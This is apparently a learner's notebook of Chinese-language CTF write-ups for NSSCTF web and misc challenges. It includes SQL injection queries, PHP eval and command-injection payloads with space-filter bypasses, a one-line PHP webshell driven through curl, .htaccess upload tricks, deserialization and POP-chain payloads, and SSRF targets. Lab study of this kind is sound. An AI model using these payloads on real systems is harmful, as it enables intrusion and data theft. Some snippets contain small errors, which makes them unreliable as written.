# 1.[SWPUCTF 2021 新生赛]gift_F12

F12

# 2.[SWPUCTF 2021 新生赛]jicao

playload:

```
GET: /?json{"x":"wllm"}
POST: id=wllmNB
```

# 3.[SWPUCTF 2021 新生赛]easy_md5

观察代码，要求使用GET请求获得name，用POST请求获得password，并且要使得输入的name和password的MD5的值也要相同

如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的，所以只要寻找这样的字符就好了

# 4.[SWPUCTF 2021 新生赛]include

进入环境提示传入一个file，传入/?file=1,显示出源代码，通过阅读源代码



我们可以看到我们可以通过get方法上传file，并且没有检查过滤，并且file还可以传给include_once函数，此函数的作用会包含我们指定的文件，若文件内容是php代码则会执行

php伪协议：php://filter会对数据流进行过滤和处理

我们要查看flag.php中的flag并且不能让php代码执行，所以要将flag.php中的内容base64编码再读,然后将读到的base64编码还原得到flag

playload：

```
/?file=php://filter/read/convert.base64encode/resource=flag.php
```

# 5:[SWPUCTF 2021 新生赛]easy_sql

学习了一遍数据库的基本操作，由于我的操作系统是arch，所以使用了MariaDB来练习，将MariaDB连接vscode进行练习。

首先F12查看源代码，注释里面表明参数是wllm，先尝试一下 `/?wllm=1`,显示如下


题目说是sql注入，尝试一下 `/?wllm=1'`,显示报错可以尝试注入

首先判断有多少列

```
/?wllm=1' order by 1 --+
/?wllm=1' order by 2 --+
/?wllm=1' order by 3 --+
/?wllm=1' order by 4 --+
```

当尝试到4时会出现报错，所以得出只有3列



然后进行查询每行分别是什么

```
/?wllm=-1' union select 1,2,3 --+
```

得到

Your Login name:2
Your Password:3

所以第二列是name，第三列是password

尝试查询所在的数据库名称,database()会返回默认的数据库，然后通过union select 回显出来

```
/?wllm=-1' union select 1, 2, database() --+
```

得到数据库名称test_db

然后查询此数据库中有哪些表

使用group_concat(table_name),是一个聚合函数可以将多行中的table_name列的值连接成为一个字符串以逗号分隔

FROM information_schema.tables

information_schema.tables是 MySQL 的一个系统表，存储了数据库中所有表的元数据信息，包括表名、表类型、创建时间等

WHERE table_schema='test_db'

table_schema这是 `information_schema.tables` 表中的一个列，表示表所属的数据库名称

**`'test_db'`** ：这是你想要查询的数据库名称。这里过滤出属于 `test_db` 数据库的所有表。

```
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
```



得到两个表test_tb,users

用类似的方法查询两个表中的字段

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='test_db'--+
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='users'--+
```

在test_tb找到flag


查询test_tb中的flag

```
/?wllm=-1' union select 1, 2, flag from test_tb --+
```


补充：

# 6.[SWPUCTF 2021 新生赛]easyrce

题目介绍是rce漏洞，rce为远程代码执行漏洞，观察代码可以得到



是eval函数导致的，eval函数会直接运行代码，所以我们尝试通过输入url参数产看根目录下有什么

```
/?url=system("ls /");
```

通过ls命令我们得到了



然后通过cat命令查看了flllllaaaaaaggggggg文件，得到flag

```
/?url=system("cat /flllllaaaaaaggggggg");
```

system()
system() 是 PHP 中⽤于执⾏外部程序并显⽰输出的⼀个函数。这个函数接受⼀个字符串
参数，该参数是要执⾏的命令，然后在 Web 服务器上执⾏这个命令。
基本语法：

```
system(string command, int &command, int &return_var);
```

$command : 要执⾏的命令。
&$return_var （可选）：此变量将填充执⾏命令后的返回状态。

需要注意的是，使⽤ system() 或其他⽤于执⾏外部命令的函数时必须⾮常⼩⼼，特别是
当命令中包含⽤户提供的数据时。否则，你的应⽤程序将容易受到命令注⼊攻击。

# 7.[SWPUCTF 2021 新生赛]caidao

观察代码是一个用利用post请求的rce漏洞，eval函数导致的


所以用post传参得到flag，在hackbar中利用post传参利用rce漏洞

```
wllm=system("ls /");
wllm=system("cat /flag");
```

# 8.[SWPUCTF 2021 新生赛]Do_you_know_http

关于http协议的题

进入环境，需要我们使用WLLM浏览器访问。



所以使用burp suite抓包，从proxy模块发送到，repeater模块，将User-Agent后内容改为WLLM

```
User-Agent：WLLM
```

然后出现的结果要我们访问a.php



访问后要求在本地访问这个页面

所以使用相同的方法抓包，修改客户端原始ip地址为127.0.0.1（本地)

```
X-Forwarded-For:127.0.0.1    （这个语句放在第三行左右，放在最后的话好像不起作用）
```

然后出现结果



访问./secretttt.php得到flag

# 9.[SWPUCTF 2021 新生赛]babyrce

观察代码，可以得到，我们要首先把cookie中admin的值设为1



使用hackbar或者bp抓包修改

```
Cookie:admin=1
```



然后访问rasalghul.php



根据访问后的页面，我们可以使用get请求来修改url的值，但是代码中使用 `preg_match`函数检查 `$ip`中是否包含空格。如果检测到空格，脚本将终止执行并输出 `nonono`

然后$ip中的代码将被shell_exec执行，最后由echo函数打印出来

先看一下有什么东西

```
${IFS}
$IFS$9
可以用来在linux shell中代替空格（后面那个好像$加任何数字都可以）

<
<>
%20
%09
URL编码

cat,flag.php(用逗号当作空格)
```

```
/?url=ls	   （查看当前目录下有什么）
/?url=ls${IFS}/    (查看根目录下有什么)
```


在根目录下看到了flag，直接拿

```
/?url=cat${IFS}/flllllaaaaaaggggggg
```

得到flag

# 10.[SWPUCTF 2021 新生赛]ez_unserialize



先查看源代码，看到代码最后面的注释，发现是robots.txt的内容，查看robots.txt

```
/robots.txt
```



查看/cl45s.php



终于找到了题目的源代码！（反序列化的题目)

阅读源代码，看到原码中将admin初始化为user，passwd初始化为123456

但是__destruct()函数中需要使得admin=admin,passwd=ctf才能得到flag

看到代码后面可以用get方法输入p，并且传入unserialize()函数

经查询unserialize（)函数是用来进行反序列化的

**序列化（Serialization）** 是将对象转换为字符串的过程，方便存储或传输；**反序列化（Unserialization）** 是将字符串还原为对象。

然后我们尝试构造一个序列化的语句然后传入unserialize（)函数执行

```
/*
$xx = new wllm()
$xx -> admin = "admin"
$xx -> passwd = "ctf"
*/这短代码用在原文

非原文
class wllm()
{
	public $admin = "admin";
	public $passwd = "ctf";
}
$xx = new wllm();
$gw = serialize($xx);
echo $gw;

```

非原文构造



原代码只需要重新创建一个wllm类然后赋值，进行序列话输出



ok，现在我们得到了一个序列化后的代码，用get方法传入

```
?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";} 
```

反序列化后对象满足 `__destruct()` 条件，输出flag。

补充！

`__construct()`是原程序的默认赋值操作，但是反序列化生成的对象的属性值直接覆盖了类定义中的默认值（如果有），但实际是**绕过**了构造函数中的赋值逻辑，原程序的赋值操作被跳过了，反序列话优先级高

**__destruct() 的核心特性**

**触发时机**

当对象的生命周期结束时（例如脚本执行完毕）。

当对象被显式销毁（如调用 `unset($obj)`）。

**反序列化场景** ：反序列化生成的临时对象会在脚本结束时触发 `__destruct()`。

**常见用途**

清理资源（如关闭数据库连接、释放文件句柄）。

在反序列化漏洞中，它是触发恶意代码的关键入口。

**与构造函数的对比**

`__construct()`：对象**创建时**调用（反序列化时不会触发）。

`__destruct()`：对象**销毁时**调用（反序列化时会触发）。

# 11.[SWPUCTF 2021 新生赛]easyupload2.0

进入一看这是一个文件上传的题目


尝试一句话木马(one.php)

```
<?php
@eval($_POST['cmd']);
?>
```

上传失败，提示php是不行的

修改后缀one.phtml                (php3，php5，pht，phtml，phps都是php可运行的文件扩展名)

修改后上传成功

然后想办法getshell

可以使用linux的bash命令行

```

curl -X POST -d "cmd=system("ls");"http://node4.anna.nssctf.cn:28791/upload/one.phtml
发现可以使用木马
curl -X POST -d "cmd=system("pwd")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("ls /")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("pwd")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("ls /app")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("cat /app/flag.php")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
得到flag
```

或者可以使用python来构造请求

```
import requests

url = "http://node4.anna.nssctf.cn:28791/upload/one.phtml"
data = {"cmd": "system('cat /app/flag.php"}

response = requests.post(url, data=data)

print(response.text)
```

或者可以使用其他的一些工具，例如蚁剑

# 12. [SWPUCTF 2021 新生赛]easyupload1.0

进入网站发现是一个文件上传的页面

尝试上传一句话木马（one1.0.php)

```
<?php
@eval($_POST['cmd']);
?>
```

发现上传失败，尝试使用其他php文件的后缀（php3，phtml)，发现都被过滤了尝试将后缀改为.jpg

发现可以上传但是jpg文件没用，所以在bs上对上传操作进行抓包，并将jpg后缀改为php



显示上传成功，需要getshell来寻找flag

通过linux的bash命令行来getshell

```
curl -X POST -d "cmd=system('pwd');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
curl -X POST -d "cmd=system('ls /app');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
发现flag.php
curl -X POST -d "cmd=system('cat /app/flag.php');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
cat到flag，但是发现是一个假的flag
curl -X POST -d "cmd=system('env');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
查看环境变量寻找线索
```

发现flag就在环境变量中



！注意环境变量中也可以寻找线索

# 13.[SWPUCTF 2021 新生赛]no_wakeup

产看页面代码发现这是一个反序列化的题目



利用php代码构造出符合要求的代码并输出结果



得到结果



尝试利用get方法提交这个结果

```
/?p=O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
发现不可行，源代码中有__weakup（）函数，尝试绕过这个函数，修改属性数量2-->3使得__weakup()函数跳过
/?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

！！！注：

1. **`__wakeup` 的触发条件** ：
   PHP 在反序列化对象时，正常情况下会先重建对象属性，然后自动调用 `__wakeup` 方法。但这一过程有一个前提： **序列化字符串中声明的属性数量必须与目标类实际定义的属性数量完全一致** 。
2. **属性数量不一致的影响** ：
   如果序列化字符串中声明的属性数量（例如 `O:6:"HaHaHa":3`）多于目标类实际定义的属性数量（假设类 `HaHaHa` 只有 2 个属性），PHP 会认为数据被篡改或版本不兼容，从而触发以下行为：

* **跳过 `__wakeup`** ：为了防止潜在的不安全操作，PHP 会直接跳过 `__wakeup` 的执行。
* **忽略多余属性** ：多余的属性（如第 3 个属性）在反序列化时会被忽略，但对象仍会被创建。

__weakup（）函数的作用：

`__wakeup()` 是 PHP 中的一个魔术方法（Magic Method），它 **在对象反序列化（`unserialize()`）时自动调用** ，主要用于在反序列化后对对象进行初始化或恢复某些状态。以下是其核心作用和应用场景：

### 1. **核心作用**

* **重建对象状态** ：
  序列化（`serialize()`）仅保存对象的属性数据，但不会保存对象的资源（如数据库连接、文件句柄等）或运行时状态。`__wakeup()` 可以在反序列化后重新初始化这些资源或恢复必要状态。
* **数据修复与验证** ：
  如果对象属性在序列化后发生格式变化（例如版本升级），可以通过 `__wakeup()` 对旧数据进行兼容性修复或校验。
* **安全控制** ：
  开发者可以在 `__wakeup()` 中重置敏感权限或清理不安全数据，防止反序列化攻击。

### 2. **触发时机**

* **调用条件** ：
  `__wakeup()` 仅在以下情况下触发：
* 通过 `unserialize()` 反序列化对象时。
* 序列化字符串中声明的属性数量 **严格等于** 类实际定义的属性数量（否则会被跳过，如你提到的绕过场景）。

# 14.[SWPUCTF 2021 新生赛]PseudoProtocols

查看这道题目，发现需要考查php伪协议

进入题目发现

hint is hear Can you find out the hint.php?

要让我们查看hint.php,尝试访问发现可以访问成功但是显示的是空白页面，可能是被屏蔽了

url中貌似提醒我们要尝试用php://filter伪协议进行访问

```
/?wllm=php://filter/read/convert.base64-encode/resource=hint.php
```



用base64解码查看，发现是



尝试访问/test2222222222222.php



发现可以使用get方法上传a并使得a严格=i want flag

有两种方法

```
/?a=data://text/plain,I want flag
```

data://text/plain指定MIME类型为纯文本

或者直接利用命令行来访问

```
curl -X POST -d "I want flag" http://node7.anna.nssctf.cn:29262/test2222222222222.php/?a=php://input
```

`php://input`是一个只读流，用于读取原始的请求数据。它通常用于接收POST请求的内容，尤其是在处理非文件上传的POST数据时。

得到flag



# 15.[NCTF 2018]签到题

bp抓包



添加cookie并修改url得到flag

在url中删除secret.php



# 16.[SWPUCTF 2021 新生赛]hardrce

题目是一个无字母RCE绕过，前面做过rce漏洞的题目，通过eval函数构造执行就可以了，但是此题目会屏蔽某些特殊符号和大小写字母



不论如何先尝试一下,发现被过滤了

```
/?wllm=system('pwd');
```

可以通过异或，取反来绕过（~可以进行取反，然后通过urlencode函数变成url编码)

```
<?php
$a=urlencode(~'system');
$c=urlencode(~'ls /');
$b=urlencode(~'cat /flllllaaaaaaggggggg');
echo $a;
echo $c;
echo $b;
//echo '(~'.$a.')'.'(~'.$b.')';
?>
```



尝试使用（再次通过~来取反恢复为原来的密码)

```
(~%8F%9C%9E...)(~%9C%9E...)
// 等价于：
('system')('cat /flag');
```

括号在此处有两个关键作用：

1. **包裹函数名** ：`(~%8F%9C%9E...)` 会被优先计算，结果作为函数名。
2. **包裹参数** ：`(~%9C%9E...)` 会被计算为字符串参数。

```
/?wllm=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

得到，发现了flag



尝试获取flag内容

```
/?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98)
```

得到flag

# 17[第五空间 2021]签到题



直接替换为NSSCTF{}提交就可

# 18.[陇剑杯 2021]签到

分析附件发现很多http协议报文，还有很多403响应，根据题目要填写NSSCTF{http}

# 19. [广东强网杯 2021 个人决赛]签到题

下载附件解压后就可以得到flag

# 20.[陇剑杯 2021]jwt（问1）

下载附件用wireshark打开，分析->追踪流->http



查找/identity，发现cookie，用base64解码知道是jwt认证方式，由三部分组成，用点（.）分隔

（/identity” 通常是一个 HTTP 请求路径，用于与身份（identity）相关的操作）

# 21.[长城杯 2021 院校组]签到

得到一串十六进制数5a6d78685a3374585a57786a6232316c5833527658324e6f5957356e5932686c626d64695a544639

尝试转换为ASCII码，然后base64解码得到flag



# 22.[SWPUCTF 2022 新生赛]ez_ez_php

题目的标签中含有php伪协议，文件包含等，进入题目环境，查看代码



substr（）函数要求传入get请求的代码前三位必须是php，所以我们想到利用php伪协议来构造

```
/?file=php://filter/read/convert.base64-encode/resource=flag.php
```



进入发现有base64编码，进行解码后得到



发现flag在flag文件里，不再flag.php

```
/?file=php://filter/read/convert.base64-encode/resource=flag
```

得到flag（base64解码后）



# 23.[SWPUCTF 2021 新生赛]error

使用sqlmap先做完题（再学习一遍sql查询的命令！！！！！！！！！！)

# 24.[陇剑杯 2021]webshell（问1）

题目要求用wireshark进行流量分析，然后找到黑客登录用的密码

对流量包看下来，登入系统一般都有一下的特征：
x1.登入成功说明状态码为200
x2.用post方式登入
x3.一般进入的是login页面

用字符串过滤login，发现有这样的流量



进行追踪http流，发现password



进行url解码后得到 `Admin123!@#`

flag为NSSCTF{`Admin123!@#`}

# 25.[SWPU 2019]神奇的二维码

下载附件，是一个二维码扫描后发现是一个假的flag


然后用binwalk扫描图片，发现还有几个rar压缩包

```
binwalk  '/home/kali/Desktop/MISC-神奇的二维码-BitcoinPay.png'
```



然后将扫描到的文件提取出来

```
binwalk -e '/home/kali/Desktop/MISC-神奇的二维码-BitcoinPay.png'
```



解压压缩包，然后发现有两个压缩包需要密码





密码在flag.doc里面，然后进行连续20次base64解码，得到密码（里面是一个音频）



密码在encode.txt里面，base64解码可得（里面是一个表情包)



播放得到的音频发现是摩斯密码，用Audacity打开mp3音频，得到可视化的



粗的为-

细的为.

手动对照摩斯密码表译码后得到



```
NSSCTF{morseisveryveryeasy}
```

# 26.[SWPUCTF 2021 新生赛]easyupload3.0

这是一个文件上传问题，首先尝试上传一句话木马，发现被阻止了。

尝试修改后缀上传，先上传1.jpg文件然后用bp抓包修改为1.php等各类php后缀上传，都不可行。

改变思考方式.htaccess文件设置为以下代码，使得让上传的1.jpg文件解析为php代码并执行

```
<FilesMatch "1.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
```

```
注：.htaccess 是 Apache 服务器中一个重要的配置文件，用于对网站目录进行 个性化配置 。它允许用户在无需修改主服务器配置文件的情况下，针对特定目录（及其子目录）设置规则
```

上传.htaccess文件的时候由于我的系统为archlinux，此文件以.开头会被隐藏，所以用bp抓包修改文件名(刚开始可以用xxx.txt这样的文件名)，使得上传成功



然后在bash中利用一句话木马

```
curl -X POST -d "cmd=system('cat /app/flag.php');" http://node7.anna.ns
sctf.cn:21624/upload/1.jpg
```



得到flag

# 27.[SWPUCTF 2021 新生赛]pop

查看源代码，发现是一个反序列化的题目



让我们尝试来理解题目的代码逻辑：

题目要求我们调用w44m类中的Getflag（）函数并且使得

$admin=w44m

$passwd=08067

时得到flag

w22m类中有一个 `$w00m`属性，并且还有一个魔术方法__desturt(),当对象被销毁时会自动调用。在这个方法里，它会尝试输出 `$w00m` 的值

w33m类中有一个 `$w00m`属性和 `$w22m`属性，还有一个魔术方法__toString(),当对象被当作字符串使用时会自动调用。在这个方法里，它会调用 `$w00m` 对象中名为 `$w22m` 的方法

通过编写序列化代码来尝试解决

```
<?php

class w44m
{
    private $admin = 'w44m';
    protected $passwd = '08067';
}

class w22m
{
    public $w00m;
}

class w33m
{
    public $w00m;
    public $w22m;
}

$w44m = new w44m();
$w22m = new w22m(); 
$w33m = new w33m();

$w33m->w00m = $w44m;
$w33m->w22m = 'Getflag';
$w22m->w00m = $w33m;


$playload = serialize($w22m);
echo urlencode($playload);
?>
```

然后尝试简化一点的代码逻辑,要获取flag，需要构造一个特定的反序列化载荷，利用PHP对象注入触发方法调用链，使得最终执行 `w44m::Getflag()(要求admin=w44m，passwd=08067，利用反序列化修改w44m的私有属性admin和受保护属性passwd)`

w22m的__destruct方法会输出w00m属性

w33m的__toString方法会调用w00m属性的方法（方法名由w22m属性指定)

构造利用链，创建w22m对象，其w00m属性为w33m对象，w33m对象的w00m属性指向修改后的w44m实例，w22m属性设为‘Getflag’

先进行

# **28.[SWPUCTF 2021 新生赛]finalrce**


| 方面           | `exec()`                                           | `eval()`                                              |
| -------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **用途**       | 用于执行外部系统命令（如操作系统命令）。           | 用于执行 PHP 代码字符串。                             |
| **执行机制**   | 在操作系统层面执行命令。                           | 在 PHP 解释器层面执行代码。                           |
| **安全性风险** | 可能导致命令注入攻击。                             | 可能导致代码注入攻击。                                |
| **返回值**     | 默认返回命令输出的最后一行，可选参数获取完整输出。 | 返回执行的 PHP 代码的结果，通常是最后一个表达式的值。 |
| **应用场景**   | 系统管理、与其他程序交互等。                       | 动态生成和执行 PHP 代码。                             |



查看代码，发现有关键字的过滤

仔细一看发现没有过滤whoami,然后睡5秒再回应，尝试一下，发现返回 can you see anything?

```
/?url=whoami;sleep 5
```

尝试一下简单过滤,并将结果保存到网站的/1.txt文件里

```
/?url=l''s / | tee 1.txt
```

访问1.txt发现



由于cat被过滤，我们可以用tac命令
/?url=tac /a_here_is_a_f1ag | tee 2.txt
发现提示我们在fllllllaaaaaggggg里
所以尝试获取，发现la是被过滤了

尝试绕过用flllll\aaaaaaggggggg
/?url=tac /flllll\aaaaaaggggggg | tee 3.txt
访问得到flag

由于cat被过滤，我们可以用tac命令

```
/?url=tac /a_here_is_a_f1ag | tee 2.txt
```

发现提示我们在fllllllaaaaaggggg里

所以尝试获取，发现la是被过滤了

尝试绕过用flllll\aaaaaaggggggg

```
/?url=tac /flllll\aaaaaaggggggg | tee 3.txt
```

访问得到flag



# 29.[LitCTF 2023]我Flag呢？

直接查看CTRL+U查看源代码



# 30.[NSSCTF 2022 Spring Recruit]ezgame

这是一个js分析题目有两种做法:

1.可以直接F12在代码中找到flag



2.发现通关要求是超过65分



那就在控制台将分数改为超过65分,然后重新开一局就可以得到flag



# 31:[NISACTF 2022]easyssrf

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){          // 大小写不敏感过滤
    die("你败了.");
}
// flag in /flag
echo file_get_contents($file);        // 触发 SSRF/伪协议读取
?>
//这是这类题目的原始代码,还可以在此基础上变体
```

本题是这样的



尝试获取一下flag

```url
file:///flag
```

提示我需要查看/fl4g

```url
file:///fl4g
```

提示查看ha1x1ux1u.php

访问后看到源码,果然是一类题目



接着使用,得到flag

```url
?file=/flag
```

注:

```study
file_get_contents($file)//读取文件内容的内置函数，功能简洁且常用，主要作用是将整个文件（或网络资源）的内容读取为一个字符串
```


| 目标            | 绕过思路         | 实际 payload                                                           |
| --------------- | ---------------- | ---------------------------------------------------------------------- |
| 直接读`/flag`   | 不用 file 关键字 | `?file=/flag`                                                          |
| 伪协议读`/flag` | 避开 file 字母   | `?file=php://filter/read=convert.base64-encode/resource=/flag`         |
| 目录穿越读 flag | 没过滤 ../       | `?file=../../../../flag`                                               |
| 读当前源码      | 伪协议 + base64  | `?file=php://filter/read=convert.base64-encode/resource=ha1x1ux1u.php` |

ssrf可以做

1. 读本地文件 `file:///etc/passwd`
2. 扫内网端口 `http://192.168.1.x:22`
3. 打内网服务 `gopher://127.0.0.1:6379/...`

# 32.[BJDCTF 2020]easy\_md5

查看题目只有一个输入框


随意输入一个东西然后查看F12,发现响应表头中有hint->提示



MySQL 中 `md5($pass, true)` 会返回 **二进制形式** 的 MD5 哈希值（而非默认的十六进制字符串）。如果这个二进制值中包含 `'`（单引号）等特殊字符，可能会闭合 SQL 语句中的引号，导致 SQL 注入。

### 具体利用方式：

我们需要找到一个字符串 `$pass`，使得它的 MD5 二进制哈希值包含 `'or'` 这样的序列，从而让原查询变成恒真条件。

例如，若 `md5($pass, true)` 的结果为 `'or'xxx`（xxx 为其他字符），则原查询会被解析为：

```sql
select * from admin where password=' 'or'xxx'
```

此时 `'or'` 会使条件恒真（因为 `'or'` 两边只要有一个为真则整体为真），无需正确密码即可查询到 `admin` 表的数据。

### 已知有效 payload：

字符串 `ffifdyop`(万能密码)

输入万能密码后


然后查看页面源代码



发现是php的弱比较("==")

可以找两个科学计数法为0e开头的,比如``

a=QNKCDZO&b=s878926199a

a=240610708&b=314282422

```url
?a=QNKCDZO&&b=s878926199a//成功绕过跳转到level114.php
```



发现是强比较("===")

给 `param1` 和 `param2` 各传一个**数组**，`md5()` 遇到数组会返回 `NULL`，于是
`md5($param1) === md5($param2)` 变成 `NULL === NULL`，成立；``
而两个数组本身不相等，`$param1 !== $param2` 也成立，条件全满足，直接出 flag。



# 33.[第五空间 2021]WebFTP

打开页面发现是一个登录页面

先试试扫描网站目录吧

```bash
dirsearch -u http://node7.anna.nssctf.cn:29107/?m=login
```



发现有phpinfo界面,访问进入,然后搜索flag,找到flag



仔细找找的话会发现密码在README.md里面

但是登录进入里面好像也没有flag

# 34.[GXYCTF 2019]Ping Ping Ping



进入发现是一个搜索框,然后随便输个内容,发现上面输入的参数是ip,

尝试输入127.0.0.1,发现可以ping通

然后尝试

```
127.0.0.1;ls
```

发现有一个flag.php和index.php

尝试看一眼内容

```base
127.0.0.1;cat index.php
```

发现失败了



好像对空格进行了过滤

`127.0.0.1;cat${IFS}index.php`

发现对大括号进行了过滤

`127.0.0.1;cat$IFSIFS$1index.php`

成功发现过滤规则



对查询flag有过滤,尝试进行变量替换

`127.0.0.1;q=g;cat$IFS$9fla$q.php`

然后ctrl+u查看源代码,发现



# 35.[ZJCTF 2019]NiZhuanSiWei

打开环境看到题目



第一层过滤要求

`if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`

isset()函数是确保参数存在,也就是确保参数非空

在这就是确保isset($text)中的参数

$text不为空

其次要求`file_get_contents($text)`的返回值**严格等于**字符串`"welcome to the zjctf"`

直接使用 `welcome to the zjctf` 作为 `$text` 的值

如果我们将 `$text` 设为 `welcome to the zjctf`（即 URL 参数为 `?text=welcome to the zjctf`），此时 `file_get_contents($text)` 会把 `$text` 的值当作**文件路径**，尝试读取服务器上名为 `welcome to the zjctf` 的文件。

但实际上，服务器上几乎不可能存在这个名字的文件（文件名包含空格且内容刚好是自身），因此 `file_get_contents` 会返回 `false` 或报错，无法满足 `file_get_contents($text) === "welcome to the zjctf"` 的条件，导致无法进入后续逻辑。

使用 `data://text/plain,welcome to the zjctf` 作为 `$text` 的值

`data://` 是 PHP 支持的一种**伪协议**，用于直接传递数据（而非读取实际文件）。其格式为 `data://[MIME类型],[数据内容]`。

在这里，`data://text/plain,welcome to the zjctf` 的含义是：

* `text/plain` 表示数据的 MIME 类型为纯文本；
* 逗号后面的 `welcome to the zjctf` 是实际要传递的数据。

当 `file_get_contents` 处理这个伪协议时，会直接读取逗号后面的字符串，而不是去访问服务器上的文件。因此 `file_get_contents($text)` 的返回值就是 `welcome to the zjctf`，刚好满足代码中的判断条件 `file_get_contents($text) === "welcome to the zjctf"`，从而通过第一层验证。

第二次过滤要求

`if(preg_match("/flag/",$file)){ echo "Not now!"; exit(); }`

preg_match()函数,PHP 的正则匹配函数，成功返回 **1**，失败返回 **0**，错误返回 **false**。

* 正则模式`/flag/`：
  * 前后的`/`是正则表达式的定界符，中间的`flag`是匹配的核心内容（纯文本）。
  * 含义：匹配**任何包含 “flag” 子字符串**的内容（不限制位置，比如 “flag.php”“aflag”“flag123” 都会被匹配）。
  * 注意：这里没有加`i`修饰符（如`/flag/i`），所以只严格匹配小写的 “flag”（大写 “FLAG” 不会被匹配，但实际场景中 flag 相关文件通常用小写命名）。

`include($file); //useless.php`

* `include($file)`：PHP 的`include`函数会将`$file`对应的文件内容当作 PHP 代码加载并执行。例如，如果`$file`是`useless.php`，就会加载该文件中的所有代码（类定义、函数等）。
* 注释`//useless.php`是关键提示：题目暗示`useless.php`是合法且需要被包含的文件（因为它不包含`flag`关键词，能通过前面的`preg_match`过滤）。
* 为什么需要包含这个文件？
  因为后续的`unserialize($password)`需要依赖类的定义（PHP 反序列化时，必须先加载被反序列化对象所属的类，否则会报错 “Class not found”）。因此`useless.php`中一定定义了某个关键类。

前面我们通过`data://`伪协议满足了`$text`的验证，但`$file`参数需要包含`useless.php`（代码注释提示）。不过，我们并不知道`useless.php`里写了什么 —— 而后续的反序列化操作必须依赖这个文件中定义的类（比如类名、属性名、魔术方法等）。

如果直接用`file=useless.php`，`include`会执行该文件的 PHP 代码（不会显示源码），所以必须用 \*\*`php://filter`伪协议 \*\* 读取它的源码（以编码形式输出，避免被 PHP 解析）。

`php://filter` 伪协议之所以能读取 PHP 文件的源码，核心在于它能**在文件内容被 PHP 解析执行前，对其进行 “过滤处理”**，将源码以 “非执行” 的形式输出。

`php://filter/read=过滤器/resource=目标文件`


用这个playload看到

`file=php://filter/read=convert.base64-encode/resource=useless.php`

```
welcome to the zjctf

PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```

解码后看到



这段代码是`useless.php`的核心内容，定义了一个名为`Flag`的类，它是我们实现反序列化攻击、读取`flag.php`的关键。我们逐行拆解其作用和在解题中的意义：

### 1. 类定义：`class Flag{ ... }`

定义了一个名为`Flag`的类（类名是后续反序列化的关键标识，必须准确匹配）。

### 2. 属性：`public $file;`

* 声明了一个**公共属性**`$file`（`public`意味着可以被外部直接访问和赋值）。
* 这个属性的作用是**存储要读取的文件名**（比如我们需要它指向`flag.php`）。

### 3. 魔术方法：`public function __tostring(){ ... }`

这是 PHP 中非常重要的**魔术方法**，作用是：当对象被当作字符串处理时（比如用`echo`输出对象），会自动调用该方法。

方法内部逻辑：

php

```php
if(isset($this->file)){  // 检查$file属性是否被设置（非空）
    echo file_get_contents($this->file);  // 读取$file对应的文件内容并输出
    echo "<br>";  // 输出换行
    return ("U R SO CLOSE !///COME ON PLZ");  // 返回一个字符串
}
```

* 核心功能：如果`$file`属性有值（比如设为`flag.php`），则通过`file_get_contents`读取该文件的内容并输出 —— 这正是我们获取 flag 的关键操作！
* 触发条件：当反序列化得到`Flag`对象后，代码执行`echo $password`（此时`$password`是`Flag`对象），会自动调用`__toString`方法。

先构造flag类的对象名且序列化

```php
<?php
// 必须先定义和useless.php中一致的Flag类（否则序列化会出错）
class Flag{
    public $file; // 和源码中的属性名一致
}

// 1. 实例化Flag对象
$obj = new Flag();

// 2. 设置$file属性为"flag.php"（要读取的目标文件）
$obj->file = "flag.php";

// 3. 序列化对象，得到可用于password参数的字符串
echo serialize($obj);
?>
```

然后用这个playload

```abc
?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

然后查看源码,发现flag



# 36.[鹏城杯 2022]简单包含

尝试查看flag.php



发现被墙了

用php://filter伪协议尝试

`php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php`



还是不行

尝试访问index.php看看具体的过滤规则



base64解码后得到

```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
?>

<code><span style="color: #000000">
